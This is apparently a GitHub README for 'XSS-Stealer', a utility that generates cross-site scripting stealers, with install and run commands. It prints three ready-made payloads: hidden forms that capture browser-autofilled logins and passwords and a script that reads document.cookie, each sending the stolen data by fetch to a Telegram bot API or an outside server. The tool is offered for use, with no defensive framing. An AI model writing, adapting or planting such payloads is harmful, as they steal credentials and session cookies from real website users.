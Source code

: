 # XSS-Stealer

Simple utility to generate XSS-based stealers.

## Usage

Install requirements:

```shell
pip install -r requirements.txt
```

Run:

```shell
python -m stealer
```

## Examples

### Passwords-Telegram

Steals the password and login using form autofill and sends it to the Telegram Bot.

**XSS-Types:**

- Reflected
- Stored

<p align="center">
<img src="resources/images/passwords_telegram.png" alt="passwords-telegram">
</p>


**Result code:**

```js
<form style="display: none" onchange="fetch(`https://api.telegram.org/bot123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11/sendMessage?text=${this.u.value};${this.p.value}&chat_id=123123123`)"><input id="u" autocomplete="username"><input id="p" type="password" autocomplete="password"></form>
```

### Cookies-Telegram

Steals the cookies and sends it to the Telegram Bot.

**XSS-Types:**

- Reflected
- Stored

<p align="center">
<img src="resources/images/cookies_telegram.png" alt="cookies-telegram">
</p>


**Result code:**

```js
<script>fetch(`https://api.telegram.org/bot123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11/sendMessage?text=${document.cookie}&chat_id=123123123`)</script>
```

### Passwords-Server

Steals the password and login using form autofill and sends it to the Server.

**XSS-Types:**

- Reflected
- Stored

<p align="center">
<img src="resources/images/passwords_server.png" alt="cookies-telegram">
</p>

```js
<form style="display: none" onchange="fetch(`https://example.com?c=${this.u.value};${this.p.value}`)"><input id="u" autocomplete="username"><input id="p" type="password" autocomplete="password"></form>
```

## Licence

XSS-Stealer is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.